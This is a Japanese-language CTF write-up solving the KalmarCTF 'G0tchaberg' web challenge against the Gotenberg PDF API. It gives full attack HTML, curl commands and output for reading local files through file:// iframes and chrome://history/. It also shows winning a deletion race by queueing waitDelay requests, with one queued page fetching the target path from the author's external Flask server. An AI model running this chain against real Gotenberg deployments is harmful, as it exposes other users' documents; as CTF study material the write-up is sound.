



# G0tchaberg:web:278pts
Can you steal the flag, even though I'm using the latest version of [https://github.com/gotenberg/gotenberg](https://github.com/gotenberg/gotenberg)?  
Individual instances can be started at the link below:  

[https://lab1.kalmarc.tf/](https://lab1.kalmarc.tf/)  

[g0tchaberg.zip](g0tchaberg.zip)  

# Solution
インスタンサーとソースが渡される。  
Gotenbergなる、各種ドキュメントをpdfに変換するAPIが動いているようだ。  
初めに、与えられたソースファイルの内容を確認する。  
フラグがどこにあるか探すと、entrypoint.shに以下の記述が見られた。  
```sh
#!/bin/sh

while true; do
    curl -s 'http://gotenberg:3000/forms/chromium/convert/html' --form 'files=@"index.html"' -o ./output.pdf
    sleep 5
done
```
5sごとにhtmlファイルを投げ、pdfへ変換しているようだ。  
index.htmlの中身は以下の通りであった。  
```html
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Flag</title>
</head>
<body>
	<h1>Very private information!</h1>
    <h2>kalmar{test_flag}</h2>
</body>
</html>
```
フラグが含まれている。  
つまり5sごとに変換のため投げられるindex.htmlもしくは変換後のoutput.pdfを盗み出せということのようだ。  
この手のものはサーバ内部のファイルを読み取れることが多いので、`iframe`で`file://`を埋め込んだhtmlをpdfへ変換する手法をとる。  
ローカルでサービスを立ち上げて様々なファイルやディレクトリの読み取りを試していると、どうやら`/tmp/`下だけが読み取れるようだ(制限により`/etc/`や`/proc/`などは読み取れない)。  
以下のようなtmp.htmlを投げる。  
```html
<html lang="en">
<head>
    <title>Satoki</title>
</head>
<body>
    <iframe src="file:///tmp/" width="1000" height="300"></iframe>
</body>
</html>
```
```bash
$ curl -s 'http://localhost:8642/forms/chromium/convert/html' --form 'file=@tmp.html;filename=index.html' -o ./output.pdf
```
  
APIのパスからもわかる通り、内部でchromiumを用いているため、ディレクトリも列挙される。  
ここでチームメンバが外部のurlをpdfに変換する機能で、`chrome://history/`が閲覧できることに気づいていた。  
```bash
$ curl -s 'http://localhost:8642/forms/chromium/convert/url' --form 'url=chrome://history/' -o ./output.pdf
```
  
pdf内にリンクも埋め込まれており、何度もindex.htmlを開いているようだ。  
```bash
$ strings output.pdf | grep file
/URI (file:///tmp/ccddc453-d2ee-4a32-bc27-4a1d60958417/ede0ef9b-45ff-4641-9039-9e7522cf33e3/index.html)>>
/URI (file:///tmp/ccddc453-d2ee-4a32-bc27-4a1d60958417/268614c1-66db-4073-be66-167c8aaee86e/index.html)>>
/URI (file:///tmp/ccddc453-d2ee-4a32-bc27-4a1d60958417/eb170e28-0bbe-4f31-bdaa-e88f999bf728/index.html)>>
/URI (file:///tmp/ccddc453-d2ee-4a32-bc27-4a1d60958417/9ea2fd77-5261-4846-b87a-185f4e5534d1/index.html)>>
/URI (file:///tmp/ccddc453-d2ee-4a32-bc27-4a1d60958417/12d5a8e7-3298-4b89-aa24-ff1ec9b4931e/index.html)>>
/URI (file:///tmp/ccddc453-d2ee-4a32-bc27-4a1d60958417/e4b7f64c-dad2-4750-bea2-de5e39a8015f/index.html)>>
```
ページタイトルが省略されているが、`F`から始まることも併せてフラグが書かれたindex.htmlファイルだと考えられる。  
都合よく`/tmp/`の下なので読み取ることができそうだ。  
パスは`/tmp/UUID(1)/UUID(2)/index.html`となっており、`UUID(1)`はある程度の時間は固定されており、`UUID(2)`は毎リクエスト変わる。  
初めに`chrome://history/`から`/UUID(1)/UUID(2)/`を読み取って、次のリクエストでファイル自体の読み取りを行えばよさそうだ。  
ところが、`/UUID(1)/UUID(2)/`を取得している間にファイルが削除されるようで、index.htmlの読み取りが間に合わない。  
```bash
$ docker exec -it handout-gotenberg-1 bash
gotenberg@ac7c6f570e53:~$ while true; do grep -r 'test_flag' /tmp/; sleep 0.5; done
^C
gotenberg@ac7c6f570e53:~$ while true; do grep -r 'test_flag' /tmp/; sleep 0.1; done
/tmp/ccddc453-d2ee-4a32-bc27-4a1d60958417/ddf459c5-5df5-4a5a-8174-548163d80927/index.html:    <h2>kalmar{test_flag}</h2>
/tmp/ccddc453-d2ee-4a32-bc27-4a1d60958417/f861c222-5dea-4655-810c-03b7e5a34210/index.html:    <h2>kalmar{test_flag}</h2>
/tmp/ccddc453-d2ee-4a32-bc27-4a1d60958417/54c89047-1a34-4862-a4f0-f824cbd3b9e8/index.html:    <h2>kalmar{test_flag}</h2>
/tmp/ccddc453-d2ee-4a32-bc27-4a1d60958417/6b2cbed3-4931-4bc0-92d1-8aebab945c88/index.html:    <h2>kalmar{test_flag}</h2>
^C
```
ローカルのコンテナ内を0.1s間隔でgrepしてようやくファイルの存在が確認できる程度である。  
つまり、`chrome://history/`で取得できる`/UUID(1)/UUID(2)/`を含むファイルパスは、パス取得時点ですでに削除されたindex.htmlのものであると言える。  
どうにかしてindex.htmlの削除を失敗または遅延させる必要がある。  
もちろんentrypoint.shは変更できないので、他のリクエストからindex.htmlを投げるリクエストに影響を及ぼす必要がありそうだ。  
[Gotenbergのドキュメント](https://gotenberg.dev/docs/routes)を見ると、`waitDelay`なるHTMLドキュメントのロードを待機するフィールドを指定できるようだ。  
これを投げるリクエストにつけるとどうなるだろうか。  
```bash
$ curl -s 'http://localhost:8642/forms/chromium/convert/url' --form 'url=chrome://history/' --form 'waitDelay=10s' -o ./output.pdf
```
コンテナ内のindex.htmlを確認する。  
```bash
gotenberg@ac7c6f570e53:~$ while true; do grep -r 'test_flag' /tmp/; sleep 1; done
/tmp/ccddc453-d2ee-4a32-bc27-4a1d60958417/3398439e-1eb5-4b02-9d6f-a3b7c46c28e0/index.html:    <h2>kalmar{test_flag}</h2>
/tmp/ccddc453-d2ee-4a32-bc27-4a1d60958417/3398439e-1eb5-4b02-9d6f-a3b7c46c28e0/index.html:    <h2>kalmar{test_flag}</h2>
/tmp/ccddc453-d2ee-4a32-bc27-4a1d60958417/3398439e-1eb5-4b02-9d6f-a3b7c46c28e0/index.html:    <h2>kalmar{test_flag}</h2>
/tmp/ccddc453-d2ee-4a32-bc27-4a1d60958417/3398439e-1eb5-4b02-9d6f-a3b7c46c28e0/index.html:    <h2>kalmar{test_flag}</h2>
/tmp/ccddc453-d2ee-4a32-bc27-4a1d60958417/3398439e-1eb5-4b02-9d6f-a3b7c46c28e0/index.html:    <h2>kalmar{test_flag}</h2>
/tmp/ccddc453-d2ee-4a32-bc27-4a1d60958417/3398439e-1eb5-4b02-9d6f-a3b7c46c28e0/index.html:    <h2>kalmar{test_flag}</h2>
```
なんとindex.htmlが5s以上残っていることがわかる。  
キューのような形で`waitDelay`をつけたリクエストの処理が終わるまで次の処理が待機させられ、後から来たindex.htmlが削除されないまま数秒間残る。  
これでファイルが残っている間に読み取りを行えばよいと喜ぶが、大きな問題がある。  
そもそも待機状態では新しいリクエストを受け付けないため、`/UUID(1)/UUID(2)/`を知るためのリクエストが通らず、通った後にはindex.htmlは既に処理後となり削除されている。  
`chrome://history/`はchromiumで開いた後、つまり処理後に記録されるため利用できないとわかる。  
特定のリクエストだけ並列処理させることもできないようだ(厳密には`/forms/libreoffice/convert`などLibreOfficeを用いれば可能だが、ディレクトリを列挙することができないため意味がない)。  
ここで、index.htmlのリクエストが到着する前に`/UUID(1)/UUID(2)/`を知るためのリクエストとフラグの書かれたindex.htmlを読み取るリクエストをあらかじめ待機させておくアイデアをひらめく。  
以下のようなリクエスト順になる。  
```
chromium
    <- chrome://history/よりUUID(1)を取得するリクエスト --- ①
    <- 5sだけindex.htmlのリクエストが来るのを待って、sato1.htmlで/tmp/UUID(1)/を列挙してUUID(2)を取得するリクエスト --- ②
    [6s待機]
    <- 12sだけ待って、sato2.htmlでs4t.pwをfetchして/UUID(1)/UUID(2)/を取得し、/tmp/UUID(1)/UUID(2)/index.htmlを読み取るリクエスト --- ③
    [15s待機]
    <- entrypoint.shの5sごとのフラグを含むリクエスト --- ④
```
詳細にリクエストを説明すると以下となる。  

①  
`UUID(1)`はある程度の時間は固定なので、あらかじめ`chrome://history/`より取得できる。  
この際に取得した`UUID(2)`はすでに削除されたindex.htmlのものであるため、利用できないことに注意する。  
ちなみに、このリクエストは待機させる必要はない。  
②  
`waitDelay=6s`とし、5sごとに送信されるindex.htmlのリクエストが待機中に必ず到着するようにする。  
sato1.htmlでは以下の通り、5s待機してindex.htmlのリクエストが到着した後に、`/tmp/UUID(1)/`を列挙することで、削除される前の`UUID(2)`を応答pdfから取得できる。  
```html
<html lang="en">
<head>
    <title>Satoki-1</title>
</head>
<body>
    <script>
        UUID_1 = "UUID(1)";
        setTimeout(() => {
            const iframe = document.createElement('iframe');
            iframe.width = 1000;
            iframe.height = 300;
            iframe.src = `file:///tmp/${UUID_1}/`;
            document.body.appendChild(iframe);
        }, 5000);
    </script>
</body>
</html>
```
複数の`UUID(2)`が取得できるが、そのうちどれかがアタリであるのでいくつか試す。  
`UUID(2)`を取得したら、すぐに外部サーバs4t.pwを建てて以下のapp.pyへ`UUID(1)/UUID(2)`を登録する。  
```python
from flask import Flask, request, make_response

app = Flask(__name__)

UUID_12 = "UUID(1)/UUID(2)"

@app.route("/", methods=["GET", "OPTIONS"])
def index():

    def add_cors_headers(resp):
        resp.headers["Access-Control-Allow-Origin"] = "*"
        resp.headers["Access-Control-Allow-Methods"] = "GET,POST,OPTIONS"
        resp.headers["Access-Control-Allow-Headers"] = "*"
        return resp

    if request.method == "OPTIONS":
        resp = make_response()
        return add_cors_headers(resp)

    resp = make_response(f"file:///tmp/{UUID_12}/index.html")
    return add_cors_headers(resp)


if __name__ == "__main__":
    app.run(host="0.0.0.0", port=80)
```
③  
`waitDelay=15s`とし、②のリクエストとほぼ同時に送信する(実際には`sleep 1`でリクエストを少し遅らせる必要がある)。  
以下のようにsato2.htmlでは`http://s4t.pw`を`fetch`し、そこに書かれていた`file:///tmp/UUID(1)/UUID(2)/index.html`を`iframe`として埋め込む。  
15秒待つのは、②が終わり次第④がすぐに処理されるのを防ぐためと、s4t.pwへ`UUID(2)`を登録する時間を稼ぐためである。  
```html
<html lang="en">
<head>
    <title>Satoki-2</title>
</head>
<body>
    <script>
        setTimeout(() => {
            fetch("http://s4t.pw")
                .then(response => response.text())
                .then(url => {
                    const iframe = document.createElement('iframe');
                    iframe.width = 1000;
                    iframe.height = 300;
                    iframe.src = url;
                    document.body.appendChild(iframe);
                })
                .catch(error => {
                });
        }, 12000);
    </script>
</body>
</html>
```
④  
5sごとにentrypoint.shから送信されるindex.htmlをpdfへ変換するリクエストで、これを取得することを目指す。  

複数の処理を待機させることで、レスポンス後に再度読み取りたいファイル名を指定している。  
以下のように実際のインスタンスに行う。  
初めに`UUID(1)`を取得する。  
```bash
$ curl -s 'https://8c2143fb2da8a3617033a8537b76cd0e-44296.inst1.chal-kalmarc.tf/forms/chromium/convert/url' --form 'url=chrome://history/' -o - | strings | grep file
/URI (file:///tmp/bc079f55-f1ac-4228-8d60-ce4b4ff93396/e8bb1c73-cfc4-40f4-bb10-82e8f2c2b262/index.html)>>
/URI (file:///tmp/bc079f55-f1ac-4228-8d60-ce4b4ff93396/494ba597-0b2f-4676-b2a5-a33cf5ae9539/index.html)>>
/URI (file:///tmp/bc079f55-f1ac-4228-8d60-ce4b4ff93396/0fbe4c3d-4b3d-4882-8350-212a12371622/index.html)>>
/URI (file:///tmp/bc079f55-f1ac-4228-8d60-ce4b4ff93396/8b1633cb-1c6e-4d0d-a28d-f6fafe377d4a/index.html)>>
/URI (file:///tmp/bc079f55-f1ac-4228-8d60-ce4b4ff93396/3c1a4383-7b1c-4cec-879d-14541337efd5/index.html)>>
```
`UUID(1)`が`bc079f55-f1ac-4228-8d60-ce4b4ff93396`とわかった。  
sato1.htmlおよびサーバs4t.pwのapp.pyに`UUID(1)`を追記する。  
次にサーバで`vim app.py; sudo python3 app.py`のように`UUID(2)`の書き込み後すぐにスクリプトを実行できるように待機する。  
そして以下のようにリクエストを送信する。  
```bash
$ (curl -s https://8c2143fb2da8a3617033a8537b76cd0e-44296.inst1.chal-kalmarc.tf/forms/chromium/convert/html --form 'file=@sato1.html;filename=index.html' --form waitDelay=6s -o ./sato1.pdf; strings sato1.pdf | grep file) & (sleep 1; curl -s https://8c2143fb2da8a3617033a8537b76cd0e-44296.inst1.chal-kalmarc.tf/forms/chromium/convert/html --form 'file=@sato2.html;filename=index.html' --form waitDelay=15s -o ./flag.pdf)
[1] 37509
/URI (file:///tmp/)>>>>
/URI (file:///tmp/bc079f55-f1ac-4228-8d60-ce4b4ff93396/79655863-f405-4b90-bf96-33c65f3740fe/)>>>>
/URI (file:///tmp/bc079f55-f1ac-4228-8d60-ce4b4ff93396/bf56333b-0f6b-46a6-beec-3cfb72253c55/)>>>>
/URI (file:///tmp/bc079f55-f1ac-4228-8d60-ce4b4ff93396/d861e9da-95de-4008-ad8b-5a5ed7446787/)>>>>
[1]+  Done                    ( curl -s https://8c2143fb2da8a3617033a8537b76cd0e-44296.inst1.chal-kalmarc.tf/forms/chromium/convert/html --form 'file=@sato1.html;filename=index.html' --form waitDelay=6s -o ./sato1.pdf; strings sato1.pdf | grep --color=auto file )
```
途中で`UUID(2)`が複数出力されるので、どれかを選んでサーバs4t.pwのapp.pyに追記して実行する。  
今回は`bf56333b-0f6b-46a6-beec-3cfb72253c55`を選ぶ(フラグが得られない場合はハズレである)。  
するとs4t.pwへリクエストが到達し、しばらく待つとflag.pdfが生成される。  
  
flagがpdfに含まれていた。  

## kalmar{g0tcha!_well_done_that_was_fun_wasn't_it?_we_would_appreciate_if_you_create_a_ticket_with_your_solution}